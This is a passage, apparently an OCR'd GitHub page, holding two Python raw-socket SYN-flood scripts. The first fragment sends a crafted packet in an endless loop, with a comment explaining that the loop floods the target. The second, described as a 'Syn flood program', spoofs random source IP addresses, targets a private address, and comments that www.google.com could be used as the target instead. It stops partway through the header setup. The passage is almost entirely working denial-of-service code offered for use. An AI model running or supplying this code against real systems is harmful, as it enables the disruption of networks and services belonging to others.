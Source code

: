 >
>tcp_checksum = checksum(psh)
>
># make the tcp header again and fill the correct checksum
>tcp_header = pack('!HHLLBBHHH' , source, dest, seq, ack_seq, offset_res, tcp_flags,  window, tcp_checksum , urg_ptr)
>
># final full packet - syn packets dont have any data
>packet = ip_header + tcp_header
>
>#Send the packet finally - the port specified has no effect
>
>while True:
>    s.sendto(packet, (dest_ip , 0 ))	# put this in a loop if you want to flood the target
>
>#put the above line in a loop like while 1: if you want to flood
> ```
>
> # Random Script
> ``` python
>'''
>	Syn flood program in python using raw sockets (Linux)
>'''
>
># some imports
>import socket, sys, random
>from struct import *
>
># checksum functions needed for calculation checksum
>def checksum(msg):
>	s = 0
>	# loop taking 2 characters at a time
>	for i in range(0, len(msg), 2):
>		w = (msg[i] << 8) + (msg[i+1])
>		s = s + w
>	
>	s = (s>>16) + (s & 0xffff);
>	#s = s + (s >> 16);
>	#complement and mask to 4 byte short
>	s = ~s & 0xffff
>	
>	return s
>
>#create a raw socket
>try:
>	s = socket.socket(socket.AF_INET, socket.SOCK_RAW, socket.IPPROTO_TCP)
>except socket.error as msg:
>	print('Socket could not be created. Error Code : ' + str(msg[0]) + ' Message ' + msg[1])
>	sys.exit()
>
># tell kernel not to put in headers, since we are providing it
>s.setsockopt(socket.IPPROTO_IP, socket.IP_HDRINCL, 1)
>	
>while True:
>	# now start constructing the packet
>	packet = ''
>
>	source_ip = str(random.randint(0,255)) + '.' + str(random.randint(0,255)) + '.' + str(random.randint(0,255)) + '.' + str(random.randint(0,>255))
>	dest_ip = '192.168.150.130'	# or socket.gethostbyname('www.google.com')
>	
>	# ip header fields
>	ihl = 5
>	version = 4